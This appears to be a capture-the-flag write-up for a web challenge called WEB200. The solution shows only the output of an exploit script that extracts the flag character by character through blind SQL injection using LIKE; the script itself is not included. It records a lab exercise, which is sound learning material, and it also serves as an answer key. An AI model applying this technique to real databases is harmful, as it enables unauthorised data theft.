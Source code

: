 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution


```
tmr@os:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using LIKE Technic 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```
